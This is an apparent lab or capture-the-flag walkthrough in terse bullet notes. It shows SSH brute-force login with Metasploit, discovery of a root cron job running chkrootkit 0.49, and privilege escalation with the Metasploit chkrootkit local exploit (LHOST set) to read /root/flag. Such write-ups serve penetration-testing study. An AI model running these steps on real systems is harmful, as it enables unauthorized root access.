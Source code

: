 
- exploit target and get shell
	- auxiliary/scanner/ssh/ssh_login
- ps aux (check running process)
- Observe, there are a couple of processes are running i.e cron and one bash script. Investigate check-down bash script.
	- cat /bin/check-down
	- The chkrootkit rootkit scanner is running as root in every 60 seconds. Check the chkrootkit location and it’s version.
	- command -v chkrootkit 
		- /bin/chkrootkit -V (check version)
	- We found the chkrootkit binary location and it’s version. Searching privilege escalation exploit module for chkrootkit 0.49.
		- searchsploit chkrootkit 0.49
			- use exploit/unix/local/chkrootkit
			- set CHKROOTKIT /bin/chkrootkit
			- set session 1 
			- set LHOST 192.14.195.2 
			- exploit 
			- cat /root/flag
